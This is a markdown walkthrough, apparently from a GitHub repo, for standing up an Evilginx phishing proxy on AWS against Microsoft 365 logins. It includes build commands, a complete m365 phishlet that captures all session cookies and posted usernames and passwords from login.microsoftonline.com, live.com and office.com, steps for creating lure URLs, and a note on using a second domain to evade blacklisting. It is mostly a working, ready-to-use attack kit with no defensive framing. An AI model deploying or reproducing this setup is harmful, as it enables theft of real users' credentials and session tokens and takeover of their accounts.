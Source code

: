 ```yaml
---
# categories:
# - Phishing
# - Evilginx
# tags:
# - Phishing
# - Evilginx
toc: true

---
```


### Setting up the domain1

### Setting up the nameservers ~ Route53

### Setting up the VPS ~ EC2
Ubuntu free tier <br>
Generate ssh key pair
#### Network Settings
configuring the ssh to local computer ip 

```bash
curl http://ipinfo.io/ip 
```
and http/s and DNS from 0.0.0.0 (anywhere) ~~> Launch

### setting up [evilginx](https://github.com/kgretzky/evilginx2) in instance 

```bash
sudo apt update
#INSATLLING GO
cd ~
curl -OL https://golang.org/dl/go1.21.6.linux-amd64.tar.gz
sha256sum go1.21.6.linux-amd64.tar.gz
sudo tar -C /usr/local -xvf go1.21.6.linux-amd64.tar.gz
sudo nano ~/.profile
### adding this
## export PATH=$PATH:/usr/local/go/bin
source ~/.profile
go version

git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
sudo ./build/evilginx -p /phishlets/

## help ~~ ## config domain 1 ~~ ## config ipv4
### domain pointing to instance public ip
## setting up the phishlets
## phishlets hostname m365 domain1
## phishlets enable m365
```
### phishlets in my case is m365 

```yaml
min_ver: '3.2.0'
proxy_hosts:
  - {phish_sub: 'login', orig_sub: 'login', domain: 'microsoftonline.com', session:true, is_landing: true}
  - {phish_sub: 'logon', orig_sub: 'login', domain: 'live.com', session: true, is_landing: false}
  - {phish_sub: 'www', orig_sub: 'www', domain: 'office.com', session: true, is_landing: false}
sub_filters:
auth_tokens:
  - domain: '.live.com' #domain that sends the cookie
    keys: ['.*:regexp'] #name of cookie to steal
  - domain: 'live.com'
    keys: ['.*:regexp']
  - domain: '.login.live.com'
    keys: ['.*:regexp']
  - domain: 'login.live.com'
    keys: ['.*:regexp']
  - domain: '.login.microsoftonline.com'
    keys: ['.*:regexp']
  - domain: 'login.microsoftonline.com'
    keys: ['.*:regexp']  
  - domain: '.microsoft.com'
    keys: ['.*:regexp'] 
  - domain: 'microsoft.com'
    keys: ['.*:regexp']
  - domain: '.office.com'
    keys: ['.*:regexp']
  - domain: 'office.com'
    keys: ['.*:regexp']
  - domain: '.www.office.com'
    keys: ['.*:regexp']
  - domain: 'www.office.com'
    keys: ['.*:regexp']
auth_urls:
  - '/landingv2'
credentials:
  username:
    key: 'login'
    search: '(.*)'
    type: 'post'
  password:
    key: 'passwd'
    search: '(.*)'
    type: 'post'
login:
  domain: 'login.microsoftonline.com'
  path: '/' # path to where the login is, on the domain.    
```

### pointing subdomains of domain 1 to phishlets subdomain 

login <br>
logon and <br>
www ~~> to the domain1 ip that is the instance ip running the server

### creating lures in evilginx

```bash
## in evilginx
lures create m365
lures get-url <id>
```
## Adding another domain to prevent BLACKLISTING

 Adding another apache server


 Next part in domain 2
